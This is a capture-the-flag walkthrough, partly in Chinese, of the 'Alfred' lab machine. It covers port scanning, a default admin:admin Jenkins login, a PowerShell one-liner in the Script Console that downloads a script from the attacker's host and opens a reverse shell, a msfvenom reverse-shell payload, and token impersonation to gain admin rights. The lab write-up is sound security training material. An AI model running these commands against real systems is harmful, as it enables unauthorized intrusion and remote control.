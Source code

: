 # Alfred

### 1.How many ports are open? (TCP only)
nmap -Pn -sS -A -v -T4 IP地址<br>
![Alfred 1](./iamges/Alfred1.png)

### 2.What is the username and password for the login panel? (in the format username:password)
admin:admin弱密码<br>
![Alfred 2](./iamges/Alfred2.png)

### 3.What is the user.txt flag? 
Jenkins有一个配置错误，通过进入Manage Jenkins的Script Console页面可以执行代码。因此payload如下<br>
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.248.101:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.192.5 -Port 4444
```
在此之前需要用http.server搭好一个简单的http服务<br>
![Alfred 3](./iamges/Alfred3.png)<br>
开启另一个终端，nc监听4444端口<br>
![Alfred 4](./iamges/Alfred4.png)<br>
使用Build Now上传payload，获取shell，得到flag<br>
![Alfred 5](./iamges/Alfred5.png)<br>
![Alfred 6](./iamges/Alfred6.png)<br>
![Alfred 7](./iamges/Alfred7.png)<br>

### 4.Read the root.txt file located at C:\Windows\System32\config
下面需要提升权限，这次提升权限可以通过模拟令牌并迁移进程来达到，首先需要获取msf的shell更好利用payload<br>
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
``` 
生成一个反向shell，使用powershell命令下载并执行，获得msfshell<br>
![Alfred 8](./iamges/Alfred8.png)<br>
![Alfred 9](./iamges/Alfred9.png)<br>
whoami /priv 查看权限<br>
![Alfred 10](./iamges/Alfred10.png)<br>
SeDebugPrivilege和SeImpersonatePrivilege可利用，load incognito加载扩展，list_tokens -g列出令牌，BUILTIN\Administrators可用，impersonate_token "BUILTIN\Administrators"进行模拟<br>
![Alfred 11](./iamges/Alfred11.png)<br>
![Alfred 12](./iamges/Alfred12.png)<br>
然后ps查看进程，使用migrate迁移到service上，得到flag<br>
![Alfred 13](./iamges/Alfred13.png)<br>
![Alfred 14](./iamges/Alfred14.png)<br>
![Alfred 15](./iamges/Alfred15.png)<br>